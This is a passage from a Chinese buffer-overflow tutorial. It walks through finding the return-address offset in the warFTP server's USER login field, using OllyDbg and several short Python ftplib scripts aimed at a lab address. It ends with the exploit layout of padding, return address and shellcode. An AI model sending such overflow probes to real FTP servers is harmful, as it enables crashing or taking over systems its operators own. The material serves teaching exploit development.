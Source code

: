 重启 warFTP，我发现只需用“Debug”菜单下的“Restart”就可重新启动并加载程序了，而且加的注释也不会丢失，如图 7-25。这下方便多了！

![](img/Q 版缓冲区溢出教程 226352.jpg)

一不小心就发现了一个小技巧，我暗自得意了一会儿，然后就考虑定位了。

经过这学期的学习，定位的方法我已经牢牢掌握了。首先定位百位，ABCDE 各占 100，程序如下：

```
from ftplib import FTP
ftp = FTP('192.168.3.151')
s = 'A'*100 + 'B'*100+'C'*100+'D'*100+'E'*100
ftp.login( s,'ww') 
```

Ollydbg 截获异常，如图 7－26。

![](img/Q 版缓冲区溢出教程 226579.jpg)

0x45454545 不能执行，0x45 是“E”，E－A＝4，即是 400 多的地方到达异常点。

百位是 4，再定位十位。先是 400 个 A，然后在 ABCD……各发 10 个，程序如下：

```
from ftplib import FTP
ftp = FTP('192.168.3.151')
s = 'A'*400 +'A'*10 + 'B'*10+'C'*10+'D'*10+'E'*10+'F'*10+'G'*10+'H'*10+'I'*10+'J'*10
ftp.login( s,'ww') 
```

这次是 49 到达返回点，如图 7－27。49－41＝8，就是 80 多。

![](img/Q 版缓冲区溢出教程 226860.jpg)

最后一次，定位个位。先是 480 个 A，然后是“'ABCDEFGHIJ'”，程序如下：

```
from ftplib import FTP
ftp = FTP('192.168.3.151')
s = 'A'*400 +'A'*80+ 'ABCDEFGHIJ'
ftp.login( s,'ww') 
```

这次是 46474849 到达返回点，截获的图如图 7－28。

![](img/Q 版缓冲区溢出教程 227043.jpg)

所以个位是 0x46－0x41＝5。400＋80＋5＝485！我们把 485 的地方改为 BBBB，其余全为 AAAA，检验一下。

```
from ftplib import FTP
ftp = FTP('192.168.3.151')
s = 'A'*485 +'BBBB'+'AAAA'
ftp.login( s,'ww') 
```

测试，果然是 42424242 报错！轻松搞定定位溢出点！

然后就考虑利用了，构造是： USER A*485 + RET + ShellCode
